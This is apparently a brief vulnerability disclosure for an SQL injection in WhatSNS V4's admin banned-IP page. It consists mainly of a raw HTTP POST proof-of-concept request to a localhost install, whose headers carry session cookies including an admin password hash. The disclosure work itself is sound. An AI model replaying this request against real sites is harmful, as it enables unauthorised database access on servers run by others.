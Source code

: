 # WhatSNS V4 sqlinject

Project official: [https://www.whatsns.com](https://www.whatsns.com/)

project address: <https://gitee.com/huangyouzhi/whatsns>

## $ip variable

>
>   URL:http://127.0.0.1/whatsns/index.php?admin_banned/add.html

![](https://github.com/YangSirrr/opendebug/blob/master/w1.png)

- POST:

```
POST /whatsns/index.php?admin_banned/add.html HTTP/1.1
Host: 127.0.0.1
Content-Length: 84
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/whatsns/index.php?admin_banned/add.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1557362955; UIA=25w5_%5D.0a%5Bea51%2C7%2F-0b54%60%2AX4%5D%5D_1%28b7d2%60%2F%2Cb2b%5C83b%2F%28a%29%2A-a66%2C%29073_%5Cc%2F306%60; bdshare_firstime=1557799980117; admin=admin; pass=96e79218965eb72c92a549dd5a330112; _qddaz=QD.hseds1.6f7ht3.jwptla86; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1560155578; _ga=GA1.1.1218018200.1562750483; PHPSESSID=h3hd7t6ptn12padakioc0ma8t1; Hm_lvt_b60316de6009d5654de7312f772162be=1570587747,1570678141,1570858233,1571039155; CmsCode=gab; Hm_lpvt_b60316de6009d5654de7312f772162be=1571039517; whatsnssid=d8bab68b1a953728; whatsnsauth=61e6Qq7XJ%2FsTmG%2BeCWSu507H0taq%2B6l%2BZYn%2Bm7BiW8Tca69D47kPL9pe3n0VoJK9ufoUEfZH0r2xM%2BiGETq5
Connection: close

ip%5B%5D=1&ip%5B%5D=2&ip%5B%5D=3&ip%5B%5D=4&expiration=30&submit=%E6%B7%BB+%E5%8A%A0
```

verification: 

![](https://github.com/YangSirrr/opendebug/blob/sourece/w2.png)

